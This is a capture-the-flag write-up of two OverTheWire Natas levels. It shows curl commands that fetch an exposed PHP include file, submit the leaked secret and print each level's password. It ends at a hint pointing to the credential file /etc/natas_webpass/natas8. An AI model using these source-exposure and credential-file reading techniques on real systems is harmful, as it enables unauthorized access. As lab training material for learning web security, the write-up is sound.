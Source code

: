 

# Level 5 -> 6:

```
abs@MacBookPro ~ % curl natas6.natas.labs.overthewire.org -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned -s                                                                        
...
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

index-source.html:
```
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

```
abs@MacBookPro ~ % curl natas6.natas.labs.overthewire.org/includes/secret.inc -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned -s 
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

```
abs@MacBookPro ~ % curl natas6.natas.labs.overthewire.org -u natas6:0RoJwHdSKWFTYR5WuiAewauSuNaBXned -s -d "secret=FOEIUWGHFEEUHOFUOIU&submit=no_one_cares" | grep "Access granted"ess granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS
```


# Level 6 -> 7:
```
abs@MacBookPro ~ % curl natas7.natas.labs.overthewire.org -u natas7:bmg8SvU1LizuWjx3y7xkNERkHxGre0GS -s 
...
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
```
